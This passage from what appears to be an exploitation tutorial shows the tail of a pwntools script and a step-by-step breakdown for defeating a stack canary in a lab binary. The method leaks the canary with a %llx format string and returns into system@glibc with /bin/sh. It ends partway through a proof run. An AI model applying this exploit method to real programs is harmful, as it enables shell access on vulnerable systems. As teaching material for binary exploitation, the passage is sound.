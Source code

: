         r = gdb.debug([exe], gdbscript="""
                b *totallySafeFunc+42
                continue
                """)
    else:
        r = process([exe])

    r.recvuntil("echo> ")
    r.sendline(leak_addresses())

    leaked_adrs = r.recvline()
    print(leaked_adrs)

    exploit = payload(leaked_adrs)

    r.recvuntil("read> ")
    r.sendline(exploit)

    r.interactive()


if __name__ == '__main__':
    main()
    sys.exit(0)
{% endhighlight %}


This exploit is not the prettiest of all exploit scripts, but it does the job ;) .

This quick script will exactly do what I shortly explained before.
Here is another breakdown:


1. First we leak a bunch of addresses with the `%llx.` format string (long long-sized integer)
2.  Analyze the leaked addresses,
2b. It turns out our stack canary is at the 68th leaked address
2c. Furthermore the middle of the stack is within the lower 8 bits of the first leaked ll integer!
5. Extract these values from the leak
4. Craft payload:
4b. Fill buffer with junk
4c. Insert leaked canary
4d. code redirection to `system@glibc`
4e. fake Base Pointer
4f. address of `/bin/sh` appended lastly


### Proof

	$ python2 defeat_canary.py
	[*] '/home/lab/Git/RE_binaries/0x00sec_WIP/Canary/binary/realvuln4'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)
	[*] '/lib/i386-linux-gnu/libc-2.23.so'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      PIE enabled
	[+] Starting local process './binary/realvuln4': pid 20991